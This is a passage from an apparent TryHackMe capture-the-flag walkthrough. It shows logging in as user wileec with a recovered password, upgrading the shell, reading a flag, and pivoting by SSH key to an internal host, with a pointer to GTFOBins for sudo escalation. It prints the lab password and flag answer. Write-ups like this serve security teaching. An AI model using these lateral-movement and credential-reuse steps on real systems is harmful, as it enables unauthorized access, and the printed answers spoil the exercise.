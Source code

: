 wildone's password is `snickers`.

## #6.2 - Flag 1

Let's switch to user `wileec`:

~~~
www-data@Erit:/home/wileec$ su wileec
su wileec
Password: snickers

$ whoami
whoami
wileec
~~~

Upgrade your shell and get the flag:

~~~
$ SHELL=/bin/bash script -q /dev/null
SHELL=/bin/bash script -q /dev/null
wileec@Erit:~$ cat flag1.txt
cat flag1.txt
THM{Hey!_Welcome_in}
wileec@Erit:~$ 
~~~

# [Task 7] Pivoting

User `wileec` has a ssh private-key!

~~~
wileec@Erit:~$ ls -lart .ssh/
-rw-r--r-- 1 wileec wileec  393 Apr 25 15:19 id_rsa.pub
-rw------- 1 wileec wileec 1675 Apr 25 15:19 id_rsa
-rw-r--r-- 1 wileec wileec  222 Apr 25 15:32 known_hosts
~~~

Remember the other IP address? We could try to connect to that one, using the SSH key:

~~~
ssh wileec@192.168.100.1
~~~

Remember: This has to be done from inside of the box, as this network is not available to you from the outside.

We can sudo!

If you look at [gtfobins](https://gtfobins.github.io/) we can see how we could leverage this.

The command is not going to work as it is, you must edit some parts.

## #7.1 - User wileec can sudo! What can he sudo?

As we have discovered an IP address (`192.168.100.1`) in the SQLite database, let's try to connect to it using as we have found wileec has a SSH private key.
